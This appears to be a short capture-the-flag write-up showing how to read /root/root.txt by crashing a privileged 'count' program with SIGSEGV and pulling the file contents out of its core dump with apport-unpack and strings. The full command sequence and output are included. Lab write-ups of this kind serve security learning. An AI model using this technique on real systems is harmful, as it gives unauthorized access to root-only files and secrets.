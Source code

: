 # Perform a core dump

reference: [https://linux-audit.com/understand-and-configure-core-dumps-work-on-linux/](https://linux-audit.com/understand-and-configure-core-dumps-work-on-linux/)



The plan is to execute the program, have it read the file into memory, and then purposefully crash the program. Causing a core dump will dump the contents of the applications memory to a file.

```
./count
Enter source file/directory name: /root/root.txt

Total characters = 33
Total words      = 2
Total lines      = 2
Save results a file? [y/N]: ^Z
[1]+  Stopped                 ./count


ps
    PID TTY          TIME CMD
   2213 pts/4    00:00:00 bash
   2373 pts/4    00:00:00 count
   2374 pts/4    00:00:00 ps

kill -SIGSEGV 2373


fg
./count
Bus error (core dumped)
```

The core dump files are located at `/var/crashes`, and they can be unpacked using `apport-unpack` to view the data.

```
apport-unpack /var/crashes/count.1000.crash /tmp/crash-report
```

You can use 'less' to view the core dump, but its a binary file and the data is hard to sift through. 'xxd' would be a good option, but since we’re looking for a flag string, using the 'strings' command is the best call.
